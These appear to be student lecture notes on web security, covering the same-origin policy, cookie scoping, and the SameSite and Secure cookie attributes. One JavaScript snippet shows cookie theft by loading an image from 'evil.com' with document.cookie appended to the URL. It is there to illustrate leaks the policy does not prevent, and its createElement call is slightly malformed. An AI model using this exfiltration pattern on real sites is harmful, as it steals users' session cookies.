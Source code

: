 # Web Security

## Web Security Model
- Safely browse te web in the presence of web attackers
    - Browsers are like operating systems
    - Need to isolate different activities

![Alt text](./WebSecurity/image.png)

## Same Origin Policy (SOP)
- Origin: isolation unit/trust boundary on the web
    - (scheme, domain, port) triple derived from URL
    - Fate sharing: if you come from same places you must be authorized
- SOP Goal: isolate content of different origins
    - <ins>Confidentiality</ins>: Script contained in evil.com should not be able to read data in bank.ch page
    - Integrity: script from evil.com should not be able to modify the content of bank.ch page

![Alt text](./WebSecurity/image-1.png)
![Alt text](./WebSecurity/image-2.png)
![Alt text](./WebSecurity/image-3.png)

## Scripts
- __CAN__ load scripts from across origins
    -- Libraries!
- Scripts execute with privileges of the page
- Page can see source via func.toString()

![Alt text](./WebSecurity/image-4.png)

## Images
- Browser renders cross-origin images, but SOP prevent page from inspecting individual pixels
- But page can see other properties, like img.width

![Alt text](./WebSecurity/image-5.png)

# SOP for Cookies
- DOM SOP: origin is a (scheme, domain, port)
- Cookies use a separate definition of origin
    - Cookie SOP: ([scheme], domain, path)
    - (https, cseweb.ucsd.edu, classes/fa23/cse127-a)
- Server can declare domain property for any cookie
    - Set-cookie: ```
    <cookie-name>=<cookie-value>; Domain=<domain-value>```

![Alt text](./WebSecurity/image-6.png)
![Alt text](./WebSecurity/image-7.png)

- Can't set cookies for these public suffixes(?)

## How do we dicide to send coookies?
![Alt text](./WebSecurity/image-8.png)
![Alt text](./WebSecurity/image-9.png)

### Another Example
- What happens when your bank includes Google Analytics Javascript (a tracker) in their web page? Can that code access your Bank's authentication cookie?
    - __Yes!__ Javascript is running with origin's privileges. Can access document.cookie in DOM

- Also, SOP doesn't prevent leaking data:
```js
const img = document.createElement("./WebSecurity/image");
img.src = "https://evil.com/?cookies=" + document.cookie;
document.body.appendChild(img);
```

![Alt text](./WebSecurity/image-10.png)

## Partial Solutions: SameSite Cookies
```js
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
SameSite=Strict;
```
- Strict: A same-site cookie is only sent when the request originates from the same site (top-level domain)
- Lax: Send cookie on top-level "safe" navigations (even if navigating cross-site)
- None: send cookie without taking context into account

![Alt text](./WebSecurity/image-11.png)

## Partial Solutions: Secure Cookies
- A secure cookie is only sent to the server with an encrypted request over the HTTPS protocol

![Alt text](./WebSecurity/image-12.png)